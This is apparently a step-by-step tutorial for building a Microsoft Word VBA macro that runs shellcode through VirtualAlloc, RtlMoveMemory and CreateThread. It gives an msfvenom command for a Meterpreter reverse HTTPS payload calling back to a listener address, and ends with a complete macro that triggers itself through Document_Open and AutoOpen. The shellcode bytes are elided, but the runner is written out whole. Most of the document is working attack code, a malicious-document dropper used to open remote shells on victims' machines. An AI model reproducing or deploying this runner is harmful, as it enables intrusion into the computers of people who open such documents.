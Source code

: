 ## Win32 APIs to be used
We will use 3 Win32 APIs from the kernel32.dll to build the shellcode runner:
- VirtualAlloc -  allocate unmanaged memory that is writable, readable, and executable
- RtlMoveMemory - copy the shellcode into the newly allocated memory
- CreateThread - create a new execution thread in the process to execute shellcode


## VirtualAlloc
The function prototype looks as follows:
```C
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```

The function takes 4 arguments:
- lpAddress - The memory allocation address(set to 0 for application to set it)
- dwSize - Size of the memory allocated
- flAllocationType - Indicates the allocation type
- flProtect - Indicates the memory protections used

Declaring the function:
```VBA
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
```

We now begin to generate our shellcode so as to figure out values for the function using msfvenom:
```msfvenom
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.150 LPORT=443 EXITFUNC=thread -f vbapplication
```


After the payload is generated we start declaring our varaiables:
```VBA
Function Mymacro()
	Dim Var1 As Variant
	Dim Var2 As LongPtr
```

Now that we have declared our variables it's time to assign them values:
```VBA
buf = Array(232,143..........213)

addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
```

Arguments set for VirtualAlloc:
- lpAddress = 0(to leave memory alllocation to the API)
- dwSize = Ubound(buf) - This function allows us to get the size of the array containing the shellcode
- flAllocationType = 0x3000(hex)/&H3000 - equates to the allocation type enums of _MEM_COMMIT_ and _MEM_RESERVE_.
- flProtect - &H40 - indicates that memory allocated is readable, writable and executable.

Final VirtualAlloc function code:

```VBA
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Function Mymacro()
	Dim Buf As Variant
	Dim addr As LongPtr

Buf = Array(232,143..........213)

addr = VirtualAlloc(0, UBound(Var1), &H3000, &H40)

	
```


## RtlMoveMemory
The function prototype looks as follows:
```C
VOID RtlMoveMemory(
  VOID UNALIGNED *Destination,
  VOID UNALIGNED *Source,
  SIZE_T         Length
);
```

The function takes 3 arguments:
- Destination -  Points to the newly allocated buffer, which is already a memory pointer.
- Source - Address of an element from the shellcode array.
- Length - Passed by value.

Declaring the function:
```VBA
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
```

Declaring the variables to pass as arguments:
```VBA
Dim counter As Long
Dim data As Long
Dim res As Long
```

Assigning values to the variables:
``` VBA
For counter = LBound(buf) To UBound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
Next counter
```
 Here, we are using a loop over each element of the shellcode array and create a byte-by-byte copy of our payload.
 The loop condition uses the _LBound_ and _UBound_ methods to find the first and last element of the array.

In this code, we imported _RtlMoveMemory_, declared two long variables and copied our payload.

Final RtlMoveMemory function code:
```VBA
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Dim counter As Long
Dim data As Long
Dim res As Long

For counter = LBound(buf) To UBound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
Next counter
```


## CreateThread

The function prototype looks as follows:
```C
HANDLE CreateThread(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  SIZE_T                  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  LPVOID                  lpParameter,
  DWORD                   dwCreationFlags,
  LPDWORD                 lpThreadId
);
```

The function takes many arguments, but most are not needed and can be set to 0. We need to import the function and start trasnlate the arguments to VBA data types:
- lpThreadAttributes - Used to set non default can be set 0
- dwStackSize - Used to set non default can be set 0
- lpStartAddress - Start address for code execution and must be the address of our shellcode buffer. This is translated to _LongPtr_.
- lpParameter - Pointer to arguments for the code residing at the starting address. Can be set to 0 with data type Longptr since our shellcode does not require a parameter/argument.
- dwCreatingFlags - flags that control the creation of the thread (can be set to 0)
- lpThreadId - A pointer to a variable that receives the thread identifier. (cane be set to 0)

Declaring the function:
```VBA
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
```
- This [reference](https://www.pinvoke.net/search.aspx?search=createthread&namespace=[All]) can be used.

We can now call the function with the already previously declared variables:
```VBA
res = CreateThread(0, 0, addr, 0, 0, 0)
```


## Putting everything together

The final word macro will look something like this:
```VBA
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
    Dim Buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    
    Buf = Array(232,143..........213)

    addr = VirtualAlloc(0, UBound(Buf), &H3000, &H40)
    
    For counter = LBound(Buf) To UBound(Buf)
        data = Buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Function 

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```